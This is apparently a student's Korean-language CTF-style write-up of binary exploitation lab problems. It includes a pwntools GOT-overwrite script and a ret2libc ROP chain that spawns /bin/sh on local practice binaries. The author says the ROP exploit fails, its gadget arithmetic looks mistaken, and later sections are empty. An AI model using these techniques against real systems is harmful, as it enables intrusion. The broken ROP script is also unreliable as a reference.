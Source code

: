 # rop


## problem 1

GOT Overwrite를 하는 문제이다. 포인터를 통해 puts의 GOT를 gift의 주소로 변경하면 puts함수를 실행할 때 gift로 점프해 실행하도록 만들 수 있다. gdb를 통해 디버깅하여 puts의 GOT와 gift함수의 주소를 알 수 있다. 

```python
from pwn import *

p = process('./got_overwrite')

puts_got = 0x404018
gift = 0x4011d6

p.recvuntil(b"addr: ")
p.sendline(str(puts_got))
p.recvuntil(b"value: ")
p.sendline(str(gift))

p.interactive()
```


## problem 3

ROP 문제로, 주어진 printf 함수의 실제 주소를 활용하여 system과 '/bin/sh'의 주소를 찾을 수 있다.

```python

from pwn import *

p = process('./onegadget')
e = ELF('./onegadget')
libc = e.libc
rop = ROP(e)

p.recvuntil(b'printf Function is at: ')
printf_addr = int(p.recv(14), 16)

libc_base = printf_addr - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]
pop_rdi = libc_base + (rop.find_gadget(['pop rdi', 'ret']))[0]

log.info("libc base : %s"%hex(libc_base))
log.info("system addr : %s"%hex(system_addr))
log.info("pop rid: %s"%hex(pop_rdi))


payload = b'A'*0x20
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
#payload += p64(pop_rdi+1)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()

```

익스플로잇이 되지 않는다. rop gadget은 PIE로 랜덤화되기 때문에 libc base를 같이 사용하면 안 되기 때문인가? 잘 모르겠다...ㅜㅜ




## problem 3-2

마찬가지로 ROP 문제이다. read를 활용하여 



## problem 4




## problem 5




## problem 6






